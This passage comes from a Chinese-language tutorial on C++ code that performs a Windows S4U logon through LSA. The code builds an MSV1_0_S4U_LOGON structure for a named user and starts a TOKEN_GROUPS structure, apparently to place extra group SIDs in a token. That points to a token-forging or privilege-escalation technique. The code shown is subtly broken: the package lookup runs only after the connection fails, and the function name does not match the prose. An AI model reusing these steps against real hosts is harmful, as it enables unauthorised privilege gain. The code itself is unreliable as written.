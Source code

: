 ```c++
	
	return status;
}
```

该函数首先调用 `LsaInit()` 函数执行 Lsa 初始化的过程。其首先通过 `LsaConnectUntrusted()` API 函数与 LSA 服务器建立不受信任的连接，然后通过 `LsaLookupAuthenticationPackage()` API 获取 MSV1_0 身份验证包的唯一标识符，如下所示。

```c++
LSA_STRING MSV1_0_PackageName = { 37, 38, (PCHAR)MSV1_0_PACKAGE_NAME };
ULONG	ulAuthenticationPackage = 0;
BOOL	isAuthPackageKerberos = FALSE;
HANDLE	hLSA = NULL;

NTSTATUS KerberosInit()
{
	NTSTATUS status = 0;
	// Open LSA policy handle
	status = LsaConnectUntrusted(&hLSA);
	if (status != STATUS_SUCCESS)
	{
		// Lookup authentication package ID
		status = LsaLookupAuthenticationPackage(hLSA, &MSV1_0_PackageName, &ulAuthenticationPackage);
		isAuthPackageKerberos = NT_SUCCESS(status);
	}
	return status;
}
```

Lsa 初始化完成后，初始化 S4U 登录，主要是初始化 `MSV1_0_S4U_LOGON` 结构体，并设置要登陆的用户名（这里是 John）和域名，如下所示。

```c++
// Create MSV1_0_S4U_LOGON structure
dwMsgS4ULength = sizeof(MSV1_0_S4U_LOGON) + (EXTRA_SID_COUNT + (DWORD)wcslen(szDomain) + (DWORD)wcslen(szUsername)) * sizeof(WCHAR);
pS4uLogon = (PMSV1_0_S4U_LOGON)LocalAlloc(LPTR, dwMsgS4ULength);
if (pS4uLogon == NULL)
{
  wprintf(L"[-] LocalAlloc Error: [%u].", GetLastError());
  goto Clear;
}

pS4uLogon->MessageType = MsV1_0S4ULogon;
pbPosition = (PBYTE)pS4uLogon + sizeof(MSV1_0_S4U_LOGON);
pbPosition = InitUnicodeString(&pS4uLogon->UserPrincipalName, szUsername, pbPosition);
pbPosition = InitUnicodeString(&pS4uLogon->DomainName, szDomain, pbPosition);
```

接着，创建一个 `TOKEN_GROUPS` 结构体，该结构的语法如下，主要包含有关访问令牌中组安全标识符（SID）的信息。

```c++
typedef struct _TOKEN_GROUPS {
  DWORD              GroupCount;
#if ...
  SID_AND_ATTRIBUTES *Groups[];
#else
  SID_AND_ATTRIBUTES Groups[ANYSIZE_ARRAY];
#endif
} TOKEN_GROUPS, *PTOKEN_GROUPS;
```
